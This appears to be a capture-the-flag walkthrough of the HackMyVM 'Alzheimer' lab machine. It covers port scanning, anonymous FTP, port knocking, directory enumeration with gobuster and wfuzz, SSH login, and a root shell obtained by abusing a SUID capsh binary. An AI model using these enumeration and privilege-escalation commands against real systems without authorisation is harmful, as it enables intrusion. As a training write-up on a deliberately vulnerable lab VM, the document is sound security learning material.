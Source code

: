 ```yaml
---
title: "Alzheimer - HackMyVM Walkthrough" 
---
```

nmap service scan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ nmap -p- -sV 192.168.56.254 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-07 12:25 EST
Nmap scan report for dominator.hmv (192.168.56.254)
Host is up (0.00060s latency).
Not shown: 65532 closed ports
PORT   STATE    SERVICE VERSION
21/tcp open     ftp     vsftpd 3.0.3
22/tcp filtered ssh
80/tcp filtered http
Service Info: OS: Unix
{% endhighlight %}
Logging into the ftp anonymously worked and we get a .secretnote.txt. 
.secretnote.txt:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ cat .secretnote.txt 
I need to knock this ports and 
one door will be open!
1000
2000
3000

{% endhighlight %}
let's use knock to see what this opens: 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ knock 192.168.56.254 1000 2000 3000 -d 20 
                                                                                    
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ nmap -p- -sV 192.168.56.254
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-12 12:13 EST
Nmap scan report for vinci.hmv (192.168.56.254)
Host is up (0.00060s latency).
Not shown: 65532 closed ports
PORT   STATE    SERVICE VERSION
21/tcp open     ftp     vsftpd 3.0.3
22/tcp filtered ssh
80/tcp open     http    nginx 1.14.2
Service Info: OS: Unix

{% endhighlight %}

From the index webpage:
I dont remember where I stored my password :( I only remember that was into a .txt file... -medusa

gobuster to enumerate files and directories:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -q -x html,php,txt,png,bin,pcap,jpg -u http://192.168.56.254/
/home                 (Status: 301) [Size: 185] [--> http://192.168.56.254/home/]
/admin                (Status: 301) [Size: 185] [--> http://192.168.56.254/admin/]
/secret               (Status: 301) [Size: 185] [--> http://192.168.56.254/secret/]
{% endhighlight %}
Let's drill down into each directory and enumerate any directories and text files:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -q -x html,php,txt,png,jpg -u http://192.168.56.254/secret/
/index.html           (Status: 200) [Size: 44]
/home                 (Status: 301) [Size: 185] [--> http://192.168.56.254/secret/home/]

{% endhighlight %}
Now into home:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -q -x html,php,txt,png,jpg -u http://192.168.56.254/secret/home
/index.html           (Status: 200) [Size: 62]
{% endhighlight %}
Let's enumerate any dot files that gobuster can't enumerate with wfuzz:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/winter]
└─$ wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 -u http://192.168.56.254/secret/home/FUZZ.txt
{% endhighlight %}

This approach didn't work. So I turned to a guide that pointed out the changes made
to the .secretnote.txt file after the port knocking. Turns out the password is 
appended to the .secretnote.txt file.. 

Anyways, moving on to logging in over SSH.

After logging in I checked the sudo privileges of medusa. the only command that can 
be used is id. 

SUID bins:
{% highlight terminal %}
medusa@alzheimer:~$ find / -perm -u=s -type f 2>/dev/null 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/sbin/capsh
{% endhighlight %}

capsh is an unusual entry. gtfobins has an entry for that binary, so let's use the 
method described on the page to get a root shell on the machine: 

{% highlight terminal %}
medusa@alzheimer:~$ /usr/sbin/capsh --gid=0 --uid=0 --
{% endhighlight %}
From here I got the root flag and submitted it. Hooray for points. 
